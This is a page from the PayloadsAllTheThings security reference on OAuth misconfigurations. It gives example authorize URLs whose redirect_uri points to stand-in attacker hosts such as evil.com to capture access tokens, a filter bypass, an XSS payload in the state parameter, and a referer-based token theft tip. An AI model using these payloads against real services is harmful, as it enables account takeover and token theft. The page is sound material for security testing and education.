

repository: swisskyrepo/PayloadsAllTheThings · page: OAuth Misconfiguration/index.html · generator: mkdocs

# OAuth Misconfiguration

> OAuth is a widely-used authorization framework that allows third-party applications to access user data without exposing user credentials. However, improper configuration and implementation of OAuth can lead to severe security vulnerabilities. This document explores common OAuth misconfigurations, potential attack vectors, and best practices for mitigating these risks.

## Summary

- [Stealing OAuth Token via referer](#stealing-oauth-token-via-referer)
- [Grabbing OAuth Token via redirect_uri](#grabbing-oauth-token-via-redirect_uri)
- [Executing XSS via redirect_uri](#executing-xss-via-redirect_uri)
- [OAuth Private Key Disclosure](#oauth-private-key-disclosure)
- [Authorization Code Rule Violation](#authorization-code-rule-violation)
- [Cross-Site Request Forgery](#cross-site-request-forgery)
- [Labs](#labs)
- [References](#references)

## Stealing OAuth Token via referer

> Do you have HTML injection but can't get XSS? Are there any OAuth implementations on the site? If so, setup an img tag to your server and see if there's a way to get the victim there (redirect, etc.) after login to steal OAuth tokens via referer - [@abugzlife1](https://twitter.com/abugzlife1/status/1125663944272748544)

## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## Executing XSS via redirect_uri

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## OAuth Private Key Disclosure

Some Android/iOS app can be decompiled and the OAuth Private key can be accessed.

## Authorization Code Rule Violation

> The client MUST NOT use the authorization code  more than once.  

If an authorization code is used more than once, the authorization server MUST deny the request
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.

## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (`https://example.com/callback?code=AUTHORIZATION_CODE`). This URL can be used in CSRF attacks.

> The client MUST implement CSRF protection for its redirection URI. This is typically accomplished by requiring any request sent to the redirection URI endpoint to include a value that binds the request to the user-agent's authenticated state. The client SHOULD utilize the "state" request parameter to deliver this value to the authorization server when making an authorization request.
